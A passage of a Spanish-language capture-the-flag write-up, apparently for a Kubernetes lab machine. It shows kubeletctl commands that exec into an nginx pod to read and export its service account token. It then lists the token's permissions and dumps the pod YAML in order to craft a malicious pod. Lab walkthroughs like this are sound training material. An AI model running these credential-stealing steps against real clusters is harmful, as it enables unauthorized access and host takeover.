 ```sh
kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
ca.crt  namespace  token
```

**¿Qué significa cada archivo?**

```
ca.crt: Certificado por parte de kubernetes para comprobar las comunicaciones.
namespace: Nombre actual de los espacios.
token: Contiene el token del servicio actual.
```

Nos guardamos el token en una variable para tenerlo más a mano.


```sh
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```


Y ahora con este comando podremos ver las acciones que podemos hacer.


```sh
kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fm6WSjqwn9m7cw9yLNRMT%2F4.png?alt=media&#x26;token=54fc5d83-e0ca-4cbb-963c-57f21ed129be" alt=""><figcaption></figcaption></figure>

El que más permisos tiene es el de **pods**. Vamos a ver el archivo **.yml** de pod nginx, para poder crear uno propio por nosotros malicioso.

```yaml
❯ kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"nginx","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"path":"/opt/flag"},"name":"flag"}]}}
  creationTimestamp: "2025-03-11T18:29:02Z"
  name: nginx
  namespace: default
  resourceVersion: "512"
  uid: be93e746-687e-4ad5-a18c-63e9a9ba5a94
spec:
  containers:
  - image: nginx:1.14.2
    imagePullPolicy: Never
    name: nginx
    resources: {}
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /root
      name: flag
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: kube-api-access-t2h5f
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  nodeName: steamcloud
  preemptionPolicy: PreemptLowerPriority
```